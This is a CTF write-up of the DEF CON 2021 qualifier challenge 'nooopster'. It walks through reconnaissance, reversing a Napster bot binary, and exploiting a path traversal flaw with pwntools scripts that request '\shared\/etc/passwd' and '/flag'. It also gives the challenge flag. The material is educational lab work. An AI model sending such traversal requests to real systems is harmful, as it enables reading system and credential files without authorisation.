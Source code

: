 ```yaml
---
title: "DEF CON CTF Qualifier 2021"
categories: [Writeups]
layout: post 
---
```


# DEF CON CTF Qualifier 2021

## Team Placing: #93 / 433

This was my first time ever competing in a DEF CON CTF so it was definitely a learning experience. Nearly all of the challenges were PWN (binary exploitation) challenges, which is definitely one of my weak points. Despite this, my teammate, Dayton, and I were able to solve one of the challenges and learned a ton from the writeups after the competition.

The following writeup is a walkthrough of a challenge that involved a little bit of everything, from performing reconaissance with nmap, to connecting to a Napster server, to analyzing the binary that is controlling a bot user, and finally identifiying and exploiting a vulnerability in that binary to successfully download any file on the user's system. 

### Solvers: This challenge and writeup was a collaborative effort between myself and my teammate, [Dayton Hasty (dayt0n)](https://github.com/dayt0n)
### Challenge: nooopster
### Category: PWN, RE 

## Description:

#### Sharing files like its 1999. Connect to my network with OpenVPN.
#### nooopster.challenges.ooo 1999

## Walkthrough:

We're provided an OpenVPN config file and key:

```bash
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 3
```

Initially the config file contained the wrong remote IP so we were having trouble connecting but with some sharp eyes from Dayton, we were able to replace the incorrect IP with `nooopster.challenge.ooo 1999`. This was eventually fixed by the challenge authors.

Using OpenVPN we can connect like so:

`sudo openvpn nooopster.ovpn`

Based off the OpenVPN config file we know that our local VPN endpoint is `192.168.5.2` and the remote VPN endpoint is `192.168.5.1`. So let's try running a nmap scan on `192.168.5.1`:

```bash
$ sudo nmap -sC -sV -oN nmap/initial 192.168.5.1

PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

Because nmap told us that this was a MLDonkey server, we initially tried connecting via netcat to see if we could supply MLDonkey commands; as well as downloading MLDonkey and other eDonkey clients. All of which didn't work for us.

After some time, we took a closer look at port `8888` and realized that it was actually the standard port for `Napster` which made a lot more sense given the challenge name `nooopster`. 

Doing some research we were able to find a linux napster client called [`Nap`](http://nap.sourceforge.net/). 

Downloading the i386 Debian package and installing like so:

```bash
$ sudo dpkg --add-architecture i386

$ sudo apt-get update

$ sudo dpkg -i nap_1.5.2-2_i386.deb
```

We can now connect to the Napster server like so `nap -s 192.168.5.1:8888`:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.001.png)

After reading some [documentation](http://nap.sourceforge.net/userguide.html) we were able to list the channels with the `/clist` command which revealed a channel called `#chat`. Then we connected to the channel:

`/join #chat`

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.003.png)

There appeared to be a bot that repeatedly told us to check out his files. So let's do that! We can use the `/browse nooopster` command to see what files he has:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.004.png)

Nice, that's a lot of 90s songs (which are actually all rickrolls). But if you continue scrolling there's one interesting file at the very end:

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.005.png)

So let's download it and run `file`:

```bash
$ file nooopster

nooopster: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=35b1628f65a3b5d518bc802d5cbe122bee0bf226, for GNU/Linux 3.2.0, stripped
```

Since this is an ELF binary, we will throw it into Binary Ninja and check out  `main()` (functions have been renamed for readability purposes):

![main function](/assets/img/writeups/DEFCONQuals2021/main_func1.png)

Knowing that napster is a peer-to-peer file sharing service, the `chdir("shared")` call lead us to believe that this was the binary for the client the `nooopster` user was using. 

It appears as though the initial connection is done with the first `do_connect()` and `send/recv_nap_msg()` call sequences. 

Let's check out that `pthread_create()` call:

![pthread_create](/assets/img/writeups/DEFCONQuals2021/pthread_create.png)

It appears that a new thread is being created that executes the `start_routine_1a80()` function, which starts out by creating a new socket and creating a new thread to handle the connections to the server:

![start_routine_1a80](/assets/img/writeups/DEFCONQuals2021/start_routine_1a80.png)

Now, we can take a look at the `start_routine()` function in the above `pthread_create()`:

![start_routine](/assets/img/writeups/DEFCONQuals2021/start_routine.png)

After digging around in the [napster protocol specification](http://opennap.sourceforge.net/napster.txt), we are able to get a better idea of what is going on here. This above code appears to be for use in handling file download requests. As the protocol specification states in section *5.1  Normal Downloading*, for each download request, a 'GET' string is sent. The code appears to check for that 'GET' string before processing the rest of the message. 

Scrolling down into the function, we find a simple logic vulnerability in this program: 

![vulnerability](/assets/img/writeups/DEFCONQuals2021/vuln.png)

After receiving the filename via the 'GET' command, the function checks to make sure the file path starts with `\shared\`. Then, since it assumes it is running in the `\shared\` directory already, it removes the `\shared\` portion of the path and processes everything after it as a file of its own. 

So, when we asked for the `nooopster` binary in the napster client, it sent a request to the vulnerable client that looked something like this:

```
GETdayt0n "\shared\nooopster" 0
```

We can take advantage of the fact that the vulnerable client processes everything after the `\shared\` string and download virtually any file on the remote client's system. To do this, we would need to send a request that looked like:

```
GETdayt0n "\shared\/etc/passwd" 0
```

This way, the program will attempt to open, read, and send the contents of the file at `/etc/passwd`.

The tricky part was actually triggering this bug in the first place. 

It appeared that in order for us to send our exploit and retrieve the flag, we not only had to connect to the Napster server, but we also had to first download a file manually through the Napster, such as the nooopster binary from before. We made a `check.py` script to ensure that we were able to send requests to the server after the manual download:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\nooopster" 0')
p.interactive()
```

![](/assets/img/writeups/DEFCONQuals2021/nooopster%20Writeup.006.png)

Once we have confirmed that the server has responded to our requests, we just have to update the script to grab `/flag`:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\/flag" 0')
p.interactive()
```

Running the script, we successfully retrieve the flag!

### Flag: OOO{M4573R_0F_PUPP375}